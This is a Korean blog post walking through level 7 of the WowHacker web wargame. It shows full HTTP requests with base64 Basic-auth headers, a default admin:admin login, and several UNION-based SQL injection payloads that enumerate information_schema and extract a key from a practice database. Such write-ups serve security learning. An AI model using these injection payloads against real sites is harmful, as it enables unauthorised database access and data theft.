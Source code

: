 ```yaml
---
layout: post
title: "[7번 문제] 와우해커(WowHacker Webgemae.level7) 문제풀이"
description: ""
date: 2015-09-08
tags: ['7번', '7본', '문제풀이', '심심', '심심할때', '와우해커', '와우해킹', '워게임', '웹해킹', '정답', '풀이', '해답', '해킹']
comments: true
share: true
---
```


하루하루 진행하다보니, 일주일사이에 7번 문제풀이를 하게되었네요.

올드좀비님의 Webhacking.kr 도 함께하고 리버싱.kr 도 함께 연재하고있으니 관심있는 분들은 한번봐주시고 피드백도 부탁드립니다.

참고로 오늘은 급하게(?) 포스팅하는 관계로 포스팅에 이전보다 많은 오타가 있을 것으로 보아 지니. . . 오타가 있다면 피드백 좀
부탁드립니다. 주소만 보았을 때, 왠지 Mysql 관련 문제일 것 같네요.

일단 해당 주소로 접근해봅시다.

  

처음에 얻은 정보는 (guest/guest) 게스트 계정 정보를 얻었네요.

  

  

![](/assets/images/posts/86/2757E44155EEC3A51220FF.PNG)

  

  

  

  

흠, 이 문제 이전 5번문제와 매우 비슷한 것 같습니다.

일단 프록실정해주시구요. guest 계정으로 접근해봅시다.

  

"서버 메세지 : Zaemitneun Webgame - Do not attack Bruteforce"

Bruteforce는 무차별 대입공격입니다. 지금 여러 방식으로 변형되어 사용되고있지만 많은 시간이 소요되는 공격기법입니다.

또 서버에 무리를 많이 주기때문에 서버측은 공격자를 빠르게 식별할수있습니다. 하지만 오늘의 문제와는 거리가 멀기때문에 각설하고 . .

  

![](/assets/images/posts/86/264EFC4155EEC3A71CC316.PNG)

  

게스트 계정으로 로그인했습니다.

제가 request 보낸 값입니다. 아파치 취약점을 이용해서 OPTIONS 메서드로 재 Request 값을 보냅니다.

Authorization에 "Z3Vlc3Q6Z3Vlc3Q=" 값은 base64로 인코딩되어있는 값 입니다. 디코딩을 하면
guest:guest 라는 값을 얻습니다.

따라서 우리는 admin:admin이라는 값으로 한번 시도해봅시다. admin:admin 을 base64로 인코딩하면 이와 같은 값을
얻습니다 "YWRtaW46YWRtaW4=" 한번 요청을 보내봅시다.

*guest request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

*admin request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic YWRtaW46YWRtaW4=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

![](/assets/images/posts/86/27055B3755EEC47F333458.PNG)

  

  

어드민 계정에 접근했습니다.

게스트 페이지와 다를게 없습니다. 다른거라고는 어드민 기본정보들? 하지만 이 기본정보들이 힌트가 됩니다.(나중참고)

따로 관리 툴이나 어드민 권한을 이용해서 별도의 패널에 접근할수는 없는 것 같습니다.

힌트도 없구요.

  

문제출제의도를 보면 SQL Injection을 통해서 admin 패스워드를 알아내야하는 것 같습니다.

그렇다면 우선 컬럼의 수를 알아봅시다. 컬럼수는 계정정보를보면 쉽게 추측할수있습니다.

"name,group,address,phone number,hitnum + password" 총 6개의 컬럼으로 추측할수있습니다.

계정인증폼으로 돌아가서 아이디란에 admin옆 싱글 쿼터를 닫고 쿼리문을 날려봅니다.

hax0r'union select '1','2','3','4','5','6'#:1234

  

![](/assets/images/posts/86/2376A03555EEC56A25081B.PNG)

  

name = "1",group"3",address"4",phone number"5",hitnum"6" 이라는걸 알았을때, 패스워드컬럼이
두번째 컬럼이라는것을 알수있습니다. 컬럼수가 6개 인것을 확실하게 확인했고, 이제 테이블을 알아내봅시다. 테이블명들을 group 항목으로
출력합시다.

쿼터문 준비하고, 날립니다. hax0r'union select '1','2',(select group_concat(table_name)
from information_schema.tables),'4','5','6'#:1234

aGF4MHIndW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW
5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyksJzInLCczJywnNCcsJzUnLCc2JyM6MTIzNDo=

Authorization 부분을 보면 Basic 인증을 사용하며 아이디와 패스워드에 구분자 ":"를 사용하고있습니다.

또 Request할때 base64로 인코딩 되구요. 따라서 그냥 입력폼에 기본 쿼터문만 입력해도되고 아니면 직접 request할때
base64로 인코딩해서 날리면 됩니다.

  

  

![](/assets/images/posts/86/277FC54A55EEDD2E0FF583.PNG)

  

  

group: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS
,COLUMN_PRIVILEGES,KEY_COLUMN_USAGE,PROFILING,ROUTINES,SCHEMATA,SCHEMA_PRIVILE
GES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILE
GES,VIEWS,keytable,user_info

  

수상한 테이블 두개를 발견했습니다. 맨 끝에 'keytable','user_info' 테이블입니다.

user_info에는 이전 name = "1",group"3",address"4",phone number"5",hitnum"6" 컬럼이
있나봅니다.

keytable에 어떤 컬럼이 있는지 조회하기 위해서는 "information_schema.columns" 의 "column_name"필드를
이용((select group_concat(column_name) from information_schema.columns where
table_name='keytable'))하면 됩니다.

쿼터문을 짜주시고, 날립시다.

hax0r'union select '1','2',(select group_concat(column_name) from
information_schema.columns where table_name='keytable'),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCBncm91cF9jb
25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGF
ibGVfbmFtZT0na2V5dGFibGUnKSwnNCcsJzUnLCc2JyM6MTIzNA06

  

  

![](/assets/images/posts/86/22270A4955EEE07505AC4C.PNG)

  

![](/assets/images/posts/86/2113214455EEE2D1194F69.PNG)

  

  

keytable의 컬럼명을 얻었습니다. no는 번호인것같고 value 해당 컬럼의 정보갔습니다.

limit을 이용하여 value 컬럼에 있는 값을 뽑아((select value from keytable limit 0,1))봅시다.

쿼터문을 준비하고, 날려줍시다.

hax0r'union select '1','2',(select value from keytable limit
0,1),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCB2YWx1ZSBmc
m9tIGtleXRhYmxlIGxpbWl0IDAsMSksJzQnLCc1JywnNicjOjEyMzQ6

  

  

![](/assets/images/posts/86/2470774E55EEE3B50E8B9C.PNG)

  

키 값을 얻었습니다. "If you dream it, you can do it"

"꿈꿀 수 있다면, 그것을 실현하는 것도 가능하다." 멋진 말 이네요.

  

7번 문제 클리어.

문제는 총 10번까지 있으며 다음은 8번 문제를 연재하겠습니다

8번은 로그인, 인증 관련 문제입니다. 이것도 왠지 인젝션 일 것 같은데.

  

![](/assets/images/posts/86/23237D5055EEE50D1FFCCA.JPEG)

  

  

  

  

  

  

  

  

